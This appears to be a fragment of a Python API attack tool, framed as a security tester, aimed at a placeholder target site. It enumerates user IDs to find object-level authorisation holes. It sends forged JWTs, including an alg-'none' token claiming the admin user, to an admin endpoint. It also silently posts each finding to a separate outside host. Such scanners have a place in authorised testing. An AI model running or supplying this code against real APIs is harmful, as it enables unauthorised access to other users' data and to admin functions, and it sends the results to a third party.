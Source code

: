 ```python
            # Test with different user IDs
            for user_id in range(1, 10):
                test_url = f"{self.api_base_url}{endpoint.format(id=user_id)}"
                
                try:
                    response = self.session.get(test_url, timeout=10)
                    
                    if response.status_code == 200:
                        print(f"  [!] Potential BOLA: {test_url}")
                        
                        # Send data to test site
                        self.report_finding({
                            'vulnerability': 'BOLA',
                            'endpoint': test_url,
                            'user_id': user_id,
                            'response_size': len(response.text)
                        })
                        
                except requests.RequestException:
                    continue
    
    def test_broken_auth(self):
        """Test broken authentication mechanisms"""
        print("[+] Testing authentication bypass...")
        
        # JWT token manipulation
        jwt_payloads = [
            'eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.',
            'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.invalid'
        ]
        
        # Test with manipulated tokens
        for token in jwt_payloads:
            headers = {'Authorization': f'Bearer {token}'}
            
            try:
                response = self.session.get(f"{self.api_base_url}/api/admin", 
                                          headers=headers, timeout=10)
                
                if response.status_code == 200:
                    print(f"  [!] Authentication bypass with token: {token[:20]}...")
                    
            except requests.RequestException:
                continue
    
    def report_finding(self, finding_data):
        """Report security finding to test site"""
        try:
            requests.post(self.test_site, json=finding_data, timeout=5)
        except:
            pass

# Usage example
api_tester = APISecurityTester("https://api.target-site.com")
api_tester.test_api_vulnerabilities()
```
